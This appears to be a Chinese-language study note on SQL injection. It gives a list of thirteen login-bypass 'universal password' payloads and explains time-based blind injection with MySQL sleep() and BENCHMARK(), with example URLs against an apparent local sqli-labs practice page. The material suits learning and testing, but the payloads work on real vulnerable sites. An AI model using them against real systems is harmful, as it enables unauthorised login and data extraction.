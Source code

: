 待更新。

#### 传说中的万能密码

```
sql="select*from test where username=' XX '  and password=' XX '  ";
1："or "a"="a
2： ')or('a'='a
3：or 1=1--
4：'or 1=1--
5：a'or' 1=1--
6："or 1=1--
7：'or'a'='a
8："or"="a'='a
9：'or''='
10：'or'='or'
11：1 or '1'='1'=1
12：1 or '1'='1' or 1=1
13： 'OR 1=1%00
```

## 注

Timing Attack注入，也就是时间盲注。通过简单的条件语句比如 and 1=2 是无法看出异常的。



在MySQL中，有一个Benchmark() 函数，它是用于测试性能的。Benchmark(count,expr) ，这个函数执行的结果，是将表达式 expr 执行 count 次 。



因此，利用benchmark函数，可以让同一个函数执行若干次，使得结果返回的时间比平时要长，通过时间长短的变化，可以判断注入语句是否执行成功。这是一种边信道攻击，这个技巧在盲注中被称为Timing Attack，也就是时间盲注。

[![RYgvfe.png](https://z3.ax1x.com/2021/06/27/RYgvfe.png)](https://imgtu.com/i/RYgvfe)

利用前提：页面上没有显示位，也没有输出 SQL 语句执行错误信息。正确的 SQL 语句和错误的 SQL 语句返回页面都一样，但是加入 sleep(5)条件之后，页面的返回速度明显慢了 5 秒。

优点：不需要显示位，不需要出错信息。

缺点：速度慢，耗费大量时间



sleep 函数判断页面响应时间        if(判断条件，为true时执行，为false时执行)



我们可以构造下面的语句，判断条件是否成立。然后不断变换函数直到获取到我们想要的信息

```
//判断是否存在延时注入
http://127.0.0.1/sqli/Less-1/?id=1' and sleep(5)#
 
// 判断数据库的第一个字符的ascii值是否大于100，如果大于100，页面立即响应，如果不大于，页面延时5秒响应
http://127.0.0.1/sqli/Less-1/?id=1'andif(ascii(substring(database(),1,1))<100,1,sleep(5)) #
```



## 感谢
